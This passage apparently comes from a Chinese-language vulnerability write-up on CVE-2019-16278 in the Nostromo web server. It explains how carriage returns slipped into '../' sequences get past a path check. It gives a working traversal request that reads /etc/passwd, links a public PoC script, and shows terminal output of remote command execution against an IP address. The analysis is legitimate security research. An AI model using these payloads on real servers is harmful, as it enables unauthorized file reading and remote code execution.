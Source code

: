 根据上述的代码分析可知，可以在`/../`字符串中插入回车符号绕过http_verify函数的检测，然后程序会在strcutl函数里面自动把回车符号删除恢复原本语义，构造poc如下：

```
GET /..%0d/..%0d/..%0d/..%0d/..%0d/..%0d/etc/passwd HTTP/1.1 
```

测试结果如下，成功读取etc/passwd文件内容

![14.png](../img/9c23d89c59ba52243731a083bbb9f746.png)

### poc

> https://github.com/ianxtianxt/CVE-2019-16278/

```
➜  Downloads python nostromo.py 114.114.114.114 8080 pwd
/bin
➜  Downloads python nostromo.py 114.114.114.114 8080 id
uid=65534 gid=65534
➜  Downloads python nostromo.py 114.114.114.114 8080 "ls -al"
drwxr-xr-x    2 0        0                0 Apr 12  2013 .
drwxr-xr-x   16 0        0                0 Jan  1  1970 ..
lrwxrwxrwx    1 0        0                7 Apr 12  2013 ash -> busybox 
```

### poc分析

该漏洞最初公布的poc可以达到远程命令执行的效果，如下所示

![20.png](../img/9199cca5ffdd4bb2a2e9124b1f0d7225.png)
